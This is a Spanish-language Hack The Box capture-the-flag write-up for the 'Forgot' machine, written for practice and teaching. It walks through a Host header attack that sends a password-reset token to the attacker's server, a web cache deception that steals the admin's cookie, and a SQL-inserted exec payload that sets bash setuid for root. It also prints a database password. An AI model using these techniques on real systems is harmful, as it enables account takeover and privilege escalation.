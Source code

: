 ```yaml
---
title: Forgot Writeup
author: miguel3023
date: 2022-11-19
categories: [Writeup, HTB]
tags: [Linux, CTF, Medium, Cache Deception, Sudoers, Host Header Attack]
image:
  path: ../../assets/img/commons/Forgot/Forgot.png
  width: 800
  height: 450 
---
```


En esta máquina veremos un "Host Header attack" para pasar un panel de login. Luego un "web cache deception" para obtener acceso como usuario no privilegiado en la web. Por último abusamos del privilegio sudoers para obtener root.

## Reconocimiento

Primeramente realizamos un escaneo con nmap para detectar los puertos abiertos

```
❯ nmap -p- -sS --min-rate 5000 --open -v -n -Pn 10.10.11.188 -oG OpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:34 -05
Initiating SYN Stealth Scan at 00:34
Scanning 10.10.11.188 [65535 ports]
Discovered open port 80/tcp on 10.10.11.188
Discovered open port 22/tcp on 10.10.11.188
Completed SYN Stealth Scan at 00:34, 13.78s elapsed (65535 total ports)
Nmap scan report for 10.10.11.188
Host is up (0.22s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Con **whatweb** podemos ver qué tecnologías emplea la web que hay en el puerto 80

```
❯ whatweb http://10.10.11.188
http://10.10.11.188 [503 Service Unavailable] Country[RESERVED][ZZ], HTML5, HTTPServer[Varnish], IP[10.10.11.188], Title[503 Backend fetch failed], UncommonHeaders[retry-after,x-varnish], Varnish, Via-Proxy[1.1 varnish (Varnish/6.2)]

```

Luego con nmap detectamos la versión y los servicios que están en los puertos que encontramos previamente abiertos

```
❯ nmap -sC -sV -p22,80 10.10.11.188 -oN Versions
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:55 -05
Nmap scan report for 10.10.11.188
Host is up (0.11s latency).

PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http-proxy Varnish http accelerator
|_http-title: 503 Backend fetch failed
|_http-server-header: Varnish
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora fuzzeamos por directorios a ver qué encontramos.

`Nota:` Nos tiene que aparecer un panel de login en la propia web, si no te aparece reinicia la máquina (me sucedió por eso lo menciono)

```
❯ wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.11.188/FUZZ

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                       
=====================================================================

000000001:   200        245 L    484 W      5186 Ch     "# directory-list-2.3-medium.txt"                                             
000000007:   200        245 L    484 W      5186 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"             
000000008:   200        245 L    484 W      5186 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                  
000000003:   200        245 L    484 W      5186 Ch     "# Copyright 2007 James Fisher"                                               
000000010:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000005:   200        245 L    484 W      5186 Ch     "# This work is licensed under the Creative Commons"                          
000000014:   200        245 L    484 W      5186 Ch     "http://10.10.11.188/"                                                        
000000006:   200        245 L    484 W      5186 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"               
000000002:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000004:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000013:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000009:   200        245 L    484 W      5186 Ch     "# Suite 300, San Francisco, California, 94105, USA."                         
000000012:   200        245 L    484 W      5186 Ch     "# on atleast 2 different hosts"                                              
000000011:   200        245 L    484 W      5186 Ch     "# Priority ordered case sensative list, where entries were found"            
000000038:   302        5 L      22 W       189 Ch      "home"                                                                        
000000053:   200        245 L    484 W      5189 Ch     "login"                                                                       
000001706:   200        252 L    498 W      5227 Ch     "forgot"                                                                      
000002357:   302        5 L      22 W       189 Ch      "tickets"                    

```
## Intrusión

En en código fuente podemos ver un usuario potencial

```html
<!-- Q1 release fix by robert-dev-145092 -->
```
Nos montamos un servidor con python por el puerto 80

```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora en la ruta **/forgot** que encontramos anteriormente colocamos el usuario que vimos. Realizamos la petición y capturamos la petición con Burpsuite y cambiamos el HOST por nuestra ip y el puerto donde tenemos el servidor

```
GET /forgot?username=robert-dev-145092 HTTP/1.1
Host: 10.10.16.47:80
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.11.188/forgot
```
Ahora interceptamos la petición de **/reset** colocando el token que nos dio de manera urlencodeada para luego iniciar sesión como **robert-dev-145092**. (Si no te funciona el token a la primera, intenta nuevamente con otro token que te da si te quedaste en escucha con python)

![Burpsuite]({{ 'assets/img/commons/Forgot/Burp.png' | relative_url }}){: .center-image }
_Petición por Burp_

Una vez obtenido el acceso a la web, vemos que en el apartado **/escalate** podemos enviarle un link para que el admin haga click en él.También si vemos el código fuente en el apartado de escalate podemos ver una ruta **/admin_tickets** si intentamos ingresar vemos que nos dice acceso denegado. Para obtener acceso a esa ruta lo que podemos hacer es lo siguiente:


![Burpsuite]({{ 'assets/img/commons/Forgot/inexistent.png' | relative_url }}){: .center-image }
_Petición por Burp_

Una vez hemos hecho esto, colocamos en la url lo mismo que le mandamos al admin sólo que hasta **/js** porque o sino Burpsuite no nos intercepta la petición, la mandamos al repeater y allí le colocamos **/test.js** 

![Burpsuite]({{ 'assets/img/commons/Forgot/cambiamos.png' | relative_url }}){: .center-image }
_Petición por Burp_


Veremos que nos dice "404 not found", esto es porque ahora simplemente lo hay que hacer es enviarle otra vez a admin el link, pero esta vez, ponle otra **s** al final del "/test/js", quedaría tal que así "/test.jss" y esperas un poco a que admin le dé click a ese link. Una vez hecho esto, simplemente en la petición anterior, le agregas una **s**

![Burpsuite]({{ 'assets/img/commons/Forgot/cookie.png' | relative_url }}){: .center-image }
_Petición por Burp_

Listo, ya hemos hecho un "cache deception attack" y capturado la cookie de admin en el lado de la respuesta, ahora sólo resta acceder a "/admin_tickets". Simplemente intercepta con Burpsuite y cambias la cookie de session de tu usuario actual por la de admin. y veremos las credenciales del usuario por ssh

![Burpsuite]({{ 'assets/img/commons/Forgot/credenciales.png' | relative_url }}){: .center-image }
_Credenciales_

## Privesc

Nos conectamos por ssh

```
-bash-5.0$ whoami
diego
-bash-5.0$ cat user.txt 
4929615d53c0dcd5c4e69e18d1665e38
-bash-5.0$
```
Podemos ver un script "bot.py" y que se conecta a la base de datos

```python
-bash-5.0$ cat bot.py 
   # Fetch Links
  conn = mysql.connector.connect(host="localhost",database="app",user="diego",password="dCb#1!x0%gjq")
  cursor = conn.cursor()
  cursor.execute('select * from forgot')
  r = cursor.fetchall() 
```

Si hacemos sudo -l podemos ver que tenemos un script que podemos ejecutar de manera privilegiada, si lo vemos nos muestra lo siguiente:

```python
 # Grab links
 conn = mysql.connector.connect(host='localhost',database='app',user='diego',password='dCb#1!x0%gjq')
 cursor = conn.cursor()
 cursor.execute('select reason from escalate')
 r = [i[0] for i in cursor.fetchall()]
 conn.close()
 data=[]
 for i in r:
         data.append(i)
 Xnew = getVec(data)
```

También podemos una librería **tensorflow** y si buscamos encontramos cómo vulnerarlo para [este](https://github.com/advisories/GHSA-75c9-jrh4-79mc)

```python
def assessData(i):
    score = ((.175*ynew1[i])+(.15*ynew2[i])+(.05*ynew3[i])+(.075*ynew4[i])+(.25*ynew5[i])+(.3*ynew6[i]))
    if score >= .5:
        try:
                preprocess_input_exprs_arg_string(data[i],safe=False)
        except:
                pass
```

Lo que hace es verificar patrones maliciosos en la base de datos. Si saturamos esto, podemos inyectar código para que se ejecute. Nos conectamos a la base de datos y ejecutamos lo siguiente:

```
mysql> insert into escalate values ("1","1","1",'test=exec("""\nimport os\nos.system("chmod +s /usr/bin/bash")""")');

```

Ahora hacemos **bash -p y obtenemos root**

```
-bash-5.0$ bash -p
bash-5.0# cat /root/root.txt 
d41b9cbb909802752553be9dd7c82720
bash-5.0#
```
